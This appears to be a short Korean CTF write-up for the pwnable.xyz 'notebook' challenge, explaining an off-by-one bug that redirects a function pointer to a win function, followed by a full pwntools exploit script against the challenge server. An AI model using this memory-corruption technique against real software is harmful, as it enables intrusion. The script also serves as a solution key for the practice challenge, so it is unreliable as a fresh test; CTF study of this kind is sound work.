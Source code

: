 ```yaml
---
title: "[pwnable.xyz]notebook"
date: 2020-2-28
ctf: Pwnable.xyz
layout: post
---
```


off-by-one 취약점 터져서 ptr 1바이트를 덮을 수 있어서 함수포인터 위치를 바꿀 수 있다. 그래서 title 입력할 때 win함수 주소를 넣어주고 rename으로 off-by-one 취약점을 이용해 win함수를 가르키게 바꿔주면 된다.

> exploit.py

```python
from pwn import *

context.log_level = 'debug'
e = ELF('./challenge')
# p = process('./challenge')
p = remote('svc.pwnable.xyz',30035)
libc = e.libc
sa = lambda x,y : p.sendafter(x,y)
sla = lambda x,y : p.sendlineafter(x,y)
win = e.symbols['win']
nbook = 0x0000000000602280
ptr = 0x0000000000602300

def make(size,title,note):
	sla('>','1')
	sla(':',str(size))
	sla(':',title)
	sla(':',note)

def edit(note):
	sla('>','2')
	sa(':',note)

def delete():
	sla('>','3')

def rename(name):
	sla('>','4')
	sa(':',name)

sla(':','A'*4)
make(32,p32(win)+'\x00'*4,'B')
rename('A'*127+'\x1c') # off-by-one
sla('>','2') # function ptr -> execute

p.interactive()
```

